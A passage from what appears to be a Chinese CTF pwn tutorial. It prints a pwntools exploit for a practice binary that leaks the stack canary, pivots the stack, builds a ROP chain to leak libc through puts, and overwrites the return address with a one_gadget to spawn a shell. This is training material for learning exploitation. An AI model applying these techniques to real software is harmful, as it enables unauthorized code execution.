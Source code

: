 ```python
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p = process('twice')
#p = remote('node4.buuoj.cn',27969)
elf = ELF('twice')
libc = ELF('./libc-2.23.so')

def dbg():
	gdb.attach(p)
	pause()

pop_rdi_ret = 0x400923
puts_plt = elf.plt['puts']
puts = elf.sym['puts']
puts_got = elf.got['puts']
leave_ret=0x0400879
start = 0x0400630
gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
# leak canary 1
pl = 'a'*0x59
p.recvuntil(">")
s(pl)
ru(pl)
canary = u64(p.recv(7).rjust(8,'\x00'))
ebp = u64(p.recv(6).ljust(8,'\x00'))
s_addr = ebp - 0x70
lg('canary',canary)
lg('s_addr',s_addr)
# write bss 2
p.recvuntil(">")
pl = p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(0x04007a9)
pl = pl.ljust(0x58,'a')
pl += p64(canary)+p64(s_addr-8)+p64(leave_ret)
s(pl)
p.recvuntil('\n')
puts_addr = u64(p.recv(6).ljust(8,'\x00'))
lg('puts_addr',puts_addr)
# leak libc
libc_base = puts_addr - libc.sym["puts"]
system_addr=libc_base+libc.sym["system"]
binsh_addr=libc_base + libc.search("/bin/sh").next()
one = gadget[0]+libc_base
lg('libc_base',libc_base)

# get shell
pl = 'a'*0x58+p64(canary)+p64(0)+p64(one)
sl(pl)
p.interactive()
```
## 例题4 一道普通的栈迁移进阶
![1](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-ee6b7471beaacce6.png)
![2](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-a38e0ef591b31781.png)
